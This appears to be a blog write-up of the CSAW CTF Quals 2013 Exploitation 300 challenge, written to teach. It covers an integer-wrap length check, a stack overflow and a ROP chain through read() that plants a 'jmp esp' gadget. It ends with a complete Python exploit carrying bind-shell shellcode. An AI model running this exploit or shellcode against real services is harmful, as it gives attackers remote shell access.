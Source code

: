 ```yaml
---
title: CSAW CTF Quals 2013 Exploitation 300 writeup
author: Adrian
layout: post
permalink: /csaw-ctf-quals-2013-exp300-writeup/
categories:
  - CTF
  - writeup
---
```


That is a network service. I can connect it by netcat. then i must input **username** **password** and seomething else.

![1]

After i analysis the service. I find out the process of login and i find the **username** and **password**

![2] ![3] ![4]

Then I input username and password. I input a number(**size**) and a string(**buff**). 

"size" > 1 and "size" + 1 < 0x400

![5]

Then I input The buff and the buff must ASCII Characters.

last the program will open a file. write it to the buff. If the length of buff is more than 0x400. write it to the top 1024 of buff.

there will be overflow when the program recv the string which you input. but the length of buff must less than 0x400. 

`
0xffff + 1 == ； 0 0xffff == 65535
`

now we can input any string which we want :)

then i will write the exp.

`
'A' * 0x420 + ret_address
`
there is not "jmp esp" in program when i use objdump. but the program use the function of read. i can use **read** to write "jmp esp" in static area.

read(fd, buff, buffsize)

read: call   80486e0 <read@plt> 

fd:4 (the fd of client socket)

read( 4, *0x080486e0, 2)

now the send "jmp esp" and the program will write in memory.

`
'A' * 0x420 + read + pop3ret + fd + static_area + "\x90" + shellcode
`

now I did it.use the exp and use **nc** connect remote server.

![6]

![7]

##Exp

~~~
import sys, os, time, struct, socket

def p32(addr):
    return struct.pack("<I", addr)

def r(s, t=0.1):
    time.sleep(t)
    return s.recv(8192)

def se(s, buf):
    s.send(buf)

HOST = "128.238.66.217"
HOST = "192.168.1.180"
PORT = 34266

SHELLCODE = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" +\
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a" +\
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0" +\
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f" +\
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0" +\
"\x0b\xcd\x80"

s = socket.socket()
s.connect((HOST, PORT))

print r(s)
se(s, "csaw2013")
print r(s)

se(s, "S1mplePWD")
print r(s)
se(s, "65535")
read = p32(0x80486e0)
pop3ret = p32(0x8049110)
static = p32(0x804b000)
fd = p32(4)
jmpesp = "\xff\xe4"
buf = "A" * (1056 + 0)
buf = "A" * 0x420
buf += read + pop3ret + fd + static + p32(2) + static + "\x90" * 100 + SHELLCODE
se(s, buf)
time.sleep(5)
se(s, jmpesp)
print 'OK!!!'
~~~
{:lang="python"}


 [1]: http://www.blue-lotus.net/images/2013/nclogin.png
 [2]: http://www.blue-lotus.net/images/2013/username.png
 [3]: http://www.blue-lotus.net/images/2013/password.png
 [4]: http://www.blue-lotus.net/images/2013/dbup.png
 [5]: http://www.blue-lotus.net/images/2013/size.png
 [6]: http://www.blue-lotus.net/images/2013/exp.png
 [7]: http://www.blue-lotus.net/images/2013/remote.png
